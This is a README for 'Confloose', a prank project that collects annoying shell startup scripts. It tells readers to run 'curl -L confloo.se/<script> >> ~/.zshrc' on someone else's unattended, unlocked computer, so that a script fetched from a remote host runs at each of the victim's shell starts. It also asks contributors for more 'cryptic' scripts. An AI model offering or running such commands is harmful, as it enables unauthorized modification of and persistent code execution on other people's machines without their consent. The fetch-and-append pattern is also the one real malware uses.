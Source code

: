 Confloose
=========

A *confloose* (or "loose configuration") is a collection of the worst a startup
script can do for you.

There has been a prank going on for quite some time in my IT school --
when someone leaves his computer unattended, and without locking it, one would
append a script to the victim's shell startup file.

The deal is to put really annoying things right off the bat while not harming
the computer and the data on it -- this prank is meant as a lesson (you should
not leave your computer unattended in public space), and a fun challenge (at
least for the one watching from afar)

How to confloose somebody :
---------------------------

``curl -L confloo.se/the_script_name >> ~/.the_shell_rc``

So, as an example, confloosing someone with the "hard" script, using zsh :

``curl -L confloo.se/hard >> ~/.zshrc``

Available scripts :
-------------------

* `hard` [bash, zsh]: Snaipe's original confloose

Rules :
-------
1. Don't destroy anything.
2. Don't steal anything.
3. Try to be cryptic.
4. Be fun and creative.

Contributing :
--------------

Think you have the perfect script to prank your coworkers ?
Submit a pull request with your script and add it to the readme,
with the compatible shells enclosed in brackets.
